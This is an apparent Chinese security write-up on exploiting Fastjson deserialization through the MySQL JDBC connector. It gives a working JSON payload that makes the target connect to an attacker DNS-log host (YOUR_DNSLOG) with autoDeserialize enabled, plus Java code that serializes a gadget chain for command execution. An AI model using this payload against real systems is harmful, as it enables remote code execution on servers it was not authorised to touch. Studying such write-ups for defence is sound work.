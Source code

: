   
本地和目标系统都读取不成功，本地  
mysql-connector-java为5.1.47  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOByuZOuwMaT5MFawD7LkHQZ9ehERU7wL4y6QPIguZwClTeR7UNhRCHcA/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功  
  

```
{
  &#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,
  &#34;@type&#34;: &#34;com.mysql.jdbc.JDBC4Connection&#34;,
  &#34;hostToConnectTo&#34;: &#34;YOUR_DNSLOG&#34;,
  &#34;portToConnectTo&#34;: 7777,
  &#34;info&#34;: {
    &#34;user&#34;: &#34;yso_URLDNS_http://YOUR_DNSLOG&#34;,
    &#34;password&#34;: &#34;pass&#34;,
    &#34;statementInterceptors&#34;: &#34;com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&#34;,
    &#34;autoDeserialize&#34;: &#34;true&#34;,
    &#34;NUM_HOSTS&#34;: &#34;1&#34;
  },
  &#34;databaseToConnectTo&#34;: &#34;dbname&#34;,
  &#34;url&#34;: &#34;&#34;
}
```

  
本地演示  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBylOLcL2MRhtQvibiaR7JYZibhcCiaFSptsIDNTtUicnoDM9b0Wlafu9bGBw/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBpDvxpkkQ89VicRIBTLaaJVA6TaEE0YASHmyGYedY2eic2ic6KUe1hMeVQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链  
  
  
https://paper.seebug.org/2067/  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBO92Ny1oFvnhvVMXmDy2Rka4ibZdAHhShO44cLPMoGWGq80ISDSXc40A/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
## 代码微调  
  
  
直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令  
  

```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;fastjson1268.bin&#34;));
oos.writeObject(hashMap);
oos.close();
```
